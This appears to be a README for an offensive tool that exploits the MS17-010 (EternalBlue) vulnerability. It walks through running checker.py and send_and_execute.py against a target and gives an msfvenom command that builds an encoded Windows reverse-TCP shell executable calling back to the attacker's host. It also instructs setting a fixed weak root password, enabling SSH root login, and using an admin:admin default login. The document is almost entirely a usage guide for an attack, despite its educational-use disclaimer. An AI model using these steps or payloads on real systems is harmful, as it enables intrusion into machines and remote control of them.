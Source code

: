# Hack into your heart

**This tool is only use for academic and educational.If someone use this tool causes any loss to others, I will not take any responsibility.**

You must change root password to !ROOTER and open SSH root permissions.

## Use

Offensive Secuirty Login page default account and password is admin:admin

Download the ms17-010.sh to /root and start SSH service.
If the vulnerable VM has the MS17-010 vulnerabilities, you can run checker.py with python2 to confirm target can be exploit.
When checker.py is successful scan the vulnerable VM pipe, run send_and_execute.py with python2 to exploit the vulnerable VM.

If you no have the shell.exe use the msfvenom to spawn one.
```
msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=<Your Local IP> LPORT=<Local IP> -f exe -o shell.exe
```

